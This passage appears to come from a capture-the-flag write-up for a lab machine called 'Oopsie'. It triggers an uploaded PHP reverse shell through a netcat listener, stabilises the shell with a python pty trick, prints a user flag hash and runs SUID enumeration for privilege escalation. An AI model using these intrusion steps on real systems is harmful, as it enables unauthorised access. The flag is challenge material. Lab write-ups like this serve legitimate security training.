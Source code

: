 During our sitemap-enumaration with Burpsuite, we found a directory called `/uploads`. It probably contains the uploaded file. 

![shell](pics/shell.png)

Starting a listener on port 4444 with `nc -lvnp 4444`and then accessing the file on `10.10.10.28/uploads/shell.php`, gives us a reverse shell to the machine.

First step is always to stablize the shell, so that we can't accidently close the connection if we press something like CTRL+C.

To fully stablize the shell and enable features like autocomplete we can do following:
```
python3 -c 'import pty; pty.spawn("/bin/bash")'

CTRL + Z (to put the nc process into the background)

stty raw -echo; fg
```

Now you should have a fully stablized shell.

## On-Machine Enumeration

### Other home directories

```
www-data@oopsie:/home$ ls -la
total 12
drwxr-xr-x  3 root   root   4096 Jan 23  2020 .
drwxr-xr-x 24 root   root   4096 Jan 27  2020 ..
drwxr-xr-x  5 robert robert 4096 Feb 25  2020 robert
```
Inspecting the home directories, we can see another user called `robert`. His home directory contains the `user.txt` flag. 

| f2c74ee8db7983851ab2a96a44eb7981 |

### Files with SUID

```
www-data@oopsie:/$ find / -perm -u=s -type f 2>/dev/null | grep -v "snap"
/bin/fusermount
/bin/umount
/bin/mount
/bin/ping
/bin/su
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/bin/newuidmap
/usr/bin/passwd
/usr/bin/at
/usr/bin/bugtracker  <-- seems suspicious
/usr/bin/newgrp
```